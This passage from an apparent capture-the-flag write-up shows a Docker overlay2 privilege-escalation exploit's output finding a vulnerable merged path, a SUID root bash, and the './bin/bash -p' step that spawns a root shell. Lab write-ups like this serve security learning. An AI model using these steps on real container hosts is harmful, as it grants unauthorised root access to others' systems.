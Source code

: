 ```
 [?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged

 [x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

 

 [?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

 [!] Rooted !

 [>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

 [?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

 

 [!] Spawning Shell

 bash-5.1# exit 
```
{% endcode %}

* Moved to /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged .
* Found bash as SUID.

{% code overflow="wrap" lineNumbers="true" fullWidth="true" %}
```
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin$ ls -

 total 5596

 -rwsr-xr-x 1 root root 1234376 Mar 27 2022 bash

 -rwxr-xr-x 3 root root  38984 Jul 20 2020 bunzip2

 -rwxr-xr-x 3 root root  38984 Jul 20 2020 bzcat

 lrwxrwxrwx 1 root root      6 Jul 20 2020 bzcmp -> bzdiff

 -rwxr-xr-x 1 root root   2225 Jul 20 2020 bzdiff

 lrwxrwxrwx 1 root root      6 Jul 20 2020 bzegrep -> bzgrep

 -rwxr-xr-x 1 root root   4877 Sep 4 2019 bzexe

 lrwxrwxrwx 1 root root      6 Jul 20 2020 bzfgrep -> bzgrep

 -rwxr-xr-x 1 root root   3775 Jul 20 2020 bzgrep

 -rwxr-xr-x 3 root root  38984 Jul 20 2020 bzip2

 -rwxr-xr-x 1 root root  18424 Jul 20 2020 bzip2recover

 lrwxrwxrwx 1 root root      6 Jul 20 2020 bzless -> bzmore

 -rwxr-xr-x 1 root root   1297 Jul 20 2020 bzmore

 -rwxr-xr-x 1 root root  43936 Sep 24 2020 cat
```